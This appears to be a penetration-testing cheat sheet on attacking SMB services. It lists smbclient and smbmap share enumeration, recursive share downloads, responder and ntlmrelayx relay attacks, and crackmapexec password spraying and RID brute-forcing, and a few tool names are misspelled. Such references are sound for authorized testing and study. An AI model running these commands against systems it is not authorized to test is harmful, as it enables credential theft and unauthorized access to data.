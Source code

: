 ```yaml
---
icon: database
description: Server Message Block
---
```


# SMB

{% tabs %}
{% tab title="smbclient" %}
{% code title="Without Credentials" %}
```
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% hint style="info" %}
{% code title="List Resource list" %}
```
smbclient -L <IP>
```
{% endcode %}
{% endhint %}

{% code title="List Null session" %}
```
smbclient -N <IP>
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code title="Connect to Host" %}
```
smbmap -H <IP>
```
{% endcode %}

{% code title="List Share" %}
```
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endtab %}
{% endtabs %}

<details>

<summary><mark style="color:purple;"><strong>Download Files:</strong></mark></summary>

{% code title="Sequence" %}
```
recurse
prompt
mget *
```
{% endcode %}

</details>

<mark style="color:purple;">**Check files attributes**</mark>

```
allinfo
```

<mark style="color:purple;">**Check Authentication**</mark>

```bash
#SMB Relay
responder -I eth0 -dwv

#Impacket
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>

```

### <mark style="color:purple;">With Credentials</mark>

<mark style="color:purple;">**SMB Credential Check**</mark>

```bash
cracmapexec smb <IP> -u usernames -p passwords

#List
crackmapexec smb <IP> -u '' -p '' --shares
```

<mark style="color:purple;">**SMB User enumeration**</mark>

```python
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute

#Full Enumeration
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
#DNS
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'

#Connect to share
smbclient -N \\\\IP\Share

#List share
smbclient //IP/<SHARE> -U <USER>

#Download Share
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```

<mark style="color:purple;">**SMB RMU (REMOTE MANAGEMENT USER)**</mark>

```python
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```

<mark style="color:purple;">**Impacket**</mark>

```
impacket-smbclient <IP>/user:password@address
```
